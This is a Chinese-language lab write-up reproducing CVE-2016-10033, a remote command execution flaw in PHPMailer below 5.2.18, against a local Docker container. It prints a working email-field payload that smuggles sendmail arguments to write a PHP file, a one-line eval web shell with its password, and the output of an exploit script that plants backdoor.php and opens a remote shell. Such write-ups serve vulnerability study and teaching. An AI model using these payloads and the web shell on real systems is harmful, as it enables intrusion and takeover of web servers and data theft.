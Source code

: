 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/iYUGj-iOOv6oHdex36L4GA)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1YhnxdlMU7s4ds5JHkq2jcVRvsSykcauDh23SDngsKpvO3nbWyW5HFe5VWDWA/640?wx_fmt=png)

PHPMailer 远程命令执行漏洞复现

一、漏洞简介

PHPMailer 是 PHP 电子邮件创建及传输类，用于多个开源项目：WordPress, Drupal, 1CRM, SugarCRM, Yii, Joomla! 等。

PHPMailer < 5.2.18 版本存在安全漏洞，可使未经身份验证的远程攻击者在 Web 服务器用户上下文中执行任意代码，远程控制目标 web 应用。

二、影响版本：

PHPMailer<5.2.18

三、漏洞复现

Docker 环境：

```
docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033
```

拉去镜像启动环境：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1YhnxdlxoXNRlsZ9tLymuiaY2pfXFjCnQiakRnqLJpA1ArEQd8pJ3X3oDcuBjww/640?wx_fmt=png)

http://192.168.1.107:8080/

```
http://192.168.1.107:8080/
在name处随便输入比如“aaa”，在email处输入：

"aaa". -OQueueDirectory=/tmp/. -X/var/www/html/a.php @aaa.com
在message处输入一句话木马：

<?php @eval($_POST['thelostworld']); ?> 
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1YhnxdlNdXU5ZdmARDf3YdMwDfryK6ibibVal7ibO2c6EzWAFbbiay9P8XF242jSw/640?wx_fmt=png)

上传完一句话木马后，页面会响应 3-5 分钟，响应时间较长

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1YhnxdlQzNqeHZKib4Jia2Geiaic4CSCSkb0NJw1CMibtUwVZjrqaqQVn2DtMkiaxTA/640?wx_fmt=png)

木马地址：http://192.168.1.107:8080/a.php 密码：thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1YhnxdlL4mp3kudzvwXdvC0bNvA7hibpmRfkrWhDLEdqZQVX5Y8SOkYOUcO3SA/640?wx_fmt=png)

 虚拟终端：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1Yhnxdlrc7gRmfZibjaA1cicczYUaTHsUN5icwJ2iaT5Z9afAaB8ibvxR6Rn8qo6wQ/640?wx_fmt=png)

使用脚本：

获取脚本后台回复 “PHPMailer” 获取脚本  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1YhnxdlWaPZG2xdjmFpPibVDfYGGNYUOvycF3mvJ1lAh6YOsS2gr7zNTfSH0ew/640?wx_fmt=png)

```
➜  Desktop ./exploit.sh 192.168.1.107:8080
[+] CVE-2016-10033 exploit by opsxcq
[+] Exploiting 192.168.1.107:8080


[+] Target exploited, acessing shell at http://192.168.1.107:8080/backdoor.php
[+] Checking if the backdoor was created on target system
[+] Backdoor.php found on remote system
[+] Running whoami
www-data
RemoteShell> [+] Running 


RemoteShell> id
[+] Running id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

访问木马地址：  

http://192.168.1.107:8080/backdoor.php

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcdntSN0777tibEtD1YhnxdlZ3D1JEialeLzlBeMVzS2JUMVWV4cgCYcH1PibydYaMg3EDFqehia13WicQ/640?wx_fmt=png)

参考：

https://www.cnblogs.com/Hi-blog/p/7812008.html

https://www.exploit-db.com/exploits/40968

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)
